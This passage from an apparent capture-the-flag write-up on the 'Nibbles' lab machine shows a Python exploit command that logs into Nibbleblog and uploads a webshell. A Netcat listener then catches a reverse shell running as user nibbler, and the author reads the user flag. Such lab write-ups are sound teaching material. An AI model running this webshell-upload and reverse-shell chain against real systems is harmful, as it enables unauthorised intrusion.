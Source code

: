 We need to provide the credentials, the target host and our local address.

```bash
python3 nibbles.py -t 10.129.13.187 -u <REDACTED> -p <REDACTED> --lhost 10.10.14.112

[+] Cookie: PHPSESSID=li7bv1v4d5jemvb4hvqlt60427

[+] Successfully logged in as <REDACTED>

[+] Webshell uploaded at '/nibbleblog/content/private/plugins/my_image/image.php'

[+] Check your Netcat listener! :)
```

And there it is! A reverse shell has been established as Nibbler. Python4TheWin.

```bash
nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.112] from (UNKNOWN) [10.129.13.187] 59234

$ whoami
nibbler

$ id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

<img src="/assets/img/nibbles/Untitled 13.png" alt="Untitled 13.png" style="width:800px;">

Transformed it into a pseudo interactive TTY and read the user flag.
